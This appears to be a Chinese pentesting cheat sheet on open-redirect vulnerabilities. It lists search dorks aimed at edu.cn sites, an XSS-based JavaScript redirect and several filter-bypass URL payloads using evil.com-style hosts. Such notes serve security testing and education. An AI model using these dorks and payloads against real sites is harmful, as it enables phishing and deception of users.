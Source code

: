 ## **url重定向**
url形如：baidu.com/url=http://1.cn
此时跳转到1.cn，如果可以自定义拼接恶意url，则是重定向漏洞，可造成欺骗，钓鱼等。
场景：url变化的场景，来到登录页，登录成功后跳转，支付成功后回调跳转，第三方登录后跳转，功能设置的跳转等。
图片头像地址url可控。

如：<http://www.8899x.net/out.asp?url=http://baidu.com/>
搜索语法
```
inurl:"url=http://"
inurl:url=http://  site:edu.cn
inurl:redirect_uri  site:edu.cn
site:*.edu.cn inurl:url=http://
```
^
## **响应包304重定向**
修改响应包的304造成重定向。
^
## **xss的js脚本造成的重定向**
```
window.location = 'http://be.hkjcfootball.com/';
```
^
## **重定向绕过**
## nuclei中的绕过技巧：
http://xxx.xxx.xxx/%0a/baidu.com
http://xxx.xxx.xxx/%5C%5Cbaidu.com/%252e%252e%252f

## 其它url跳转绕过技巧：
http://xxx.xxx.xxx/redirect.php?url=/www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=//www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=///www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=http://www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=http://www.baidu.com\www.evil.com
http://xxx.xxx.xxx/redirect.php?url=http://www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=.evil.com(可能会跳到evil.com)
http://xxx.xxx.xxx/redirect.php?url=.evil(可能会跳到www.evil.com.evil)
### 期望跳转到www.baidu.com
http://www.test.com[@www.baidu.com/tou

可绕过众多防御
http://@www.realsee.com[@www.baidu.com/tou

http://baidu.com\test.com

## 绕过URL跳转
https://www.cnblogs.com/-meditation-/articles/16243218.html

## java代码审计漏洞-URL跳转
https://www.cnblogs.com/-meditation-/articles/16243853.html